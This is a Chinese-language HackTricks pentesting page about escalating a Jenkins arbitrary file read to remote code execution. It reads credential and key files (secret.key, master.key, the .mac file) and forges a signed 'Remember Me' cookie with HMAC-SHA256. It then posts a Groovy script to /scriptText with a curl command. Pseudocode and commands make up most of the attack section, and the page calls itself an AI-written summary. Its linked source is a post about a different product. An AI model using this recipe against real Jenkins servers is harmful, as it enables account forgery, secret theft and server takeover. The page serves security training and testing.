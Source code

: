 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

在这篇博客文章中，可以找到将 Jenkins 中的本地文件包含漏洞转化为 RCE 的绝佳方法：[https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

这是一个 AI 创建的摘要，内容涉及如何利用任意 cookie 的构造来获取 RCE，直到我有时间自己创建摘要为止：

### 攻击前提

* **功能要求：** 必须启用“记住我”（默认设置）。
* **访问级别：** 攻击者需要整体/读取权限。
* **秘密访问：** 能够读取关键文件中的二进制和文本内容。

### 详细利用过程

#### 第一步：数据收集

**用户信息检索**

* 访问每个用户的用户配置和秘密，从 `$JENKINS_HOME/users/*.xml` 收集：
* **用户名**
* **用户种子**
* **时间戳**
* **密码哈希**

**密钥提取**

* 提取用于签名 cookie 的加密密钥：
* **秘密密钥：** `$JENKINS_HOME/secret.key`
* **主密钥：** `$JENKINS_HOME/secrets/master.key`
* **MAC 密钥文件：** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### 第二步：Cookie 伪造

**令牌准备**

*   **计算令牌过期时间：**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 当前时间加一小时
```
{% endcode %}
*   **连接令牌数据：**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC 密钥解密**

*   **解密 MAC 密钥文件：**

```javascript
key = toAes128Key(masterKey)  // 将主密钥转换为 AES128 密钥格式
decrypted = AES.decrypt(macFile, key)  // 解密 .mac 文件
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**签名计算**

*   **计算 HMAC SHA256：**

```javascript
mac = HmacSHA256(token, macKey)  // 使用令牌和 MAC 密钥计算 HMAC
tokenSignature = bytesToHexString(mac)  // 将 MAC 转换为十六进制字符串
```

**Cookie 编码**

*   **生成最终 Cookie：**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // 对 cookie 数据进行 Base64 编码
```
{% endcode %}

#### 第三步：代码执行

**会话认证**

* **获取 CSRF 和会话令牌：**
* 请求 `/crumbIssuer/api/json` 以获取 `Jenkins-Crumb`。
* 从响应中捕获 `JSESSIONID`，该 ID 将与记住我 cookie 一起使用。

**命令执行请求**

*   **发送带有 Groovy 脚本的 POST 请求：**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy 脚本可用于在 Jenkins 环境中执行系统级命令或其他操作。

提供的示例 curl 命令演示了如何使用必要的头和 cookie 向 Jenkins 发出请求，以安全地执行任意代码。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

